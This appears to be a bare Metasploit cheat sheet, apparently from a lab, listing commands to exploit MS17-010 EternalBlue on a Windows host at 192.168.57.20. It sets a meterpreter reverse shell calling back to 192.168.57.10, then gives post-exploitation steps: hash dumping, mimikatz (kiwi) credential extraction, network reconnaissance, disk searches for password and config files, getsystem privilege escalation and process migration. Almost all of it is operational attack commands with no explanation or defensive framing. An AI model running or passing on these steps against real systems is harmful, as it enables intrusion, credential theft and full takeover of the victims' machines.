






# Credentials:

```
msfconsole
```


```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.57.20
set RHOST 192.168.57.20
```



```
set PAYLOAD windows/x64/meterpreter/reverse_tcp

set LHOST  192.168.57.10
set LPORT 4444

set GroomAllocations 12
set GroomDelta 5
set MaxExploitAttempts 3
set ProcessName spoolsv.exe

show options
show advanced
```



```
check
exploit
```


```
sessions -i 1
sysinfo
getuid
run post/windows/gather/checkvm
getpid

hashdump
loot
```


# mimikatz for in-memory credentials

```
load kiwi
creds_all
lsa_dump_sam
```


```
ipconfig
arp
```


```
netstat -ano
```



```
route
```


# Guardar en archivo
```
shell

# Buscar archivos interesantes
search -f *.txt -d C:\\Users
search -f *.pdf -d C:\\
search -f *.doc* -d C:\\Users
search -f *password* -d C:\\
search -f *config* -d C:\\
```



## Privileges escalation

```
getsystem

use post/windows/escalate/getsystem
run

# migrate to a process with privileges
ps
migrate 492

```


